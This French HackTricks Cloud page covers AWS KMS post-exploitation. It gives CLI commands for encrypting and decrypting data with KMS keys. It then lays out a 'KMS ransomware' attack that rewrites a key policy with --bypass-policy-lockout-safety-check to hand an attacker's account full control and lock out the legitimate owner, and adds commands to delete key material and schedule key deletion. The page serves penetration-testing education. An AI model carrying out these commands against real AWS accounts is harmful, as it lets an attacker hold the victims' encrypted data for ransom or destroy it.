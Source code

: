 # AWS - Post Exploitation de KMS

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>

## KMS

Pour plus d'informations, consultez :

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Chiffrer/Déchiffrer des informations

* Utilisation d'une clé **symétrique**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Utilisation d'une clé **asymétrique** :
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Un attaquant ayant un accès privilégié à KMS pourrait modifier la politique KMS des clés et **accorder à son compte un accès à ces clés**, supprimant ainsi l'accès accordé au compte légitime.

Ensuite, les utilisateurs du compte légitime ne pourront pas accéder aux informations de tout service qui a été chiffré avec ces clés, créant ainsi un ransomware facile mais efficace sur le compte.

{% hint style="warning" %}
Notez que les **clés gérées par AWS ne sont pas affectées** par cette attaque, seules les **clés gérées par le client** le sont.

Notez également la nécessité d'utiliser le paramètre **`--bypass-policy-lockout-safety-check`** (l'absence de cette option dans la console Web rend cette attaque possible uniquement depuis l'interface de ligne de commande).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Notez que si vous modifiez cette politique et ne donnez accès qu'à un compte externe, puis à partir de ce compte externe vous essayez de définir une nouvelle politique pour **redonner l'accès au compte d'origine, vous ne pourrez pas le faire**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Détruire les clés
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Notez que AWS empêche désormais les actions précédentes d'être effectuées à partir d'un compte externe :
{% endhint %}

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre entreprise annoncée dans HackTricks ou si vous souhaitez accéder à la dernière version de PEASS ou télécharger HackTricks en PDF, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux référentiels GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
